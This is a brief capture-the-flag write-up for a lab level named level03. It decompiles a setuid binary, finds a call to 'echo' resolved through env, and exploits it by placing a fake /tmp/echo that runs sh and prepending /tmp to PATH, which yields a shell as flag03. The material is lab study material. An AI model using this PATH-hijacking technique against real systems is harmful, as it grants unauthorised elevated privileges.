 # Solution

```bash
$>scp -P 4242 level03@192.168.56.101:~/level03 .
$>ghidra
```

```c
iVar1 = system("/usr/bin/env echo Exploit me");
```

```bash
$>export PATH=/tmp:$PATH
$>echo sh > /tmp/echo
$>./level03
$>whoami
flag03
$>getflag
```